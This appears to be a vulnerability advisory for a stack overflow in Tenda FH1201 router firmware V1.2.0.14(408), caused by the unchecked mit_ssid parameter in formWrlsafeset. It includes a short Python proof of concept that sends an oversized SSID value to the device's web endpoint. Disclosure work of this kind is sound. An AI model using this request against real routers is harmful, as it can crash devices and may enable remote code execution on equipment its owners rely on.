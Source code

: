 # Tenda FH1201 formWrlsafeset
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the mit_ssid parameter in the formWrlsafeset function.
### Vulnerability details
In function formWrlsafeset line 53, it reads in a user-provided parameter `mit_ssid`, and the variable `Var` is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s_1`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/17.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/AdvSetWrlsafeset"

data = {
    "mit_ssid": "a" * 1000
}

response = requests.get(url, params=data)
print(response.text)
```

![](images/18.png)
